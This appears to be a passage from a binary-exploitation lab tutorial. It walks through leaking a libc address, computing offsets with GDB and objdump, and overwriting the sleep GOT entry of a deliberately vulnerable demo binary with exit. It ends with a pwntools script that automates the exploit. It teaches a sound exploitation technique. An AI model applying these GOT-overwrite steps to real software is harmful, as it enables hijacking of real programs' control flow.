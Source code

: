 For this `libc`, we obtain the offsets of the functions we are interested in using GDB:

```
silvia@imladris:/sss/demo$ gdb -q -n /lib/i386-linux-gnu/libc.so.6
(gdb) p printf
$1 = {<text variable, no debug info>} 0x513a0 <__printf>
(gdb) p exit
$2 = {<text variable, no debug info>} 0x30420 <__GI_exit>
```

We will also need the address of `sleep@got` (which is static because the binary is not position independent):

```
silvia@imladris:/sss/demo$ objdump -d -M intel -j .plt ./got_overwrite | grep "sleep@plt" -A1
080483b0 <sleep@plt>:
 80483b0:   ff 25 0c a0 04 08       jmp    DWORD PTR ds:0x804a00c
```

We start the program and compute the address of exit based on the leak of printf (in another terminal):

```
>>> printf_offset = 0x513a0
>>> exit_offset = 0x30420
>>> 0xf7dfb3a0 - printf_offset + exit_offset
4158497824
```

```
silvia@imladris:/sss/demo$ ./got_overwrite
Here's a libc address: 0xf7dfb3a0
Give me and address to modify!
0x804a00c
Give me a value!
4158497824
silvia@imladris:/sss/demo$ echo $?
10
```

As we intended, the `GOT` entry corresponding to `sleep` was overwritten by exit and the program exited with code 10 without printing the final message.

The following pwntools script automates this interaction:

```
from pwn import *
 
p = process('./got_overwrite')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
 
sleep_got = p.elf.got['sleep']
 
p.recvuntil('libc address:')
libc_leak = int(p.recvuntil('\n')[:-1], 16)
libc_base = libc_leak - libc.symbols['printf']
 
print("Libc base is at: 0x%x" % libc_base)
 
exit = libc_base + libc.symbols['exit']
 
p.sendline(hex(sleep_got))
 
p.recvuntil('value!')
p.sendline(str(exit))
 
p.interactive()
```
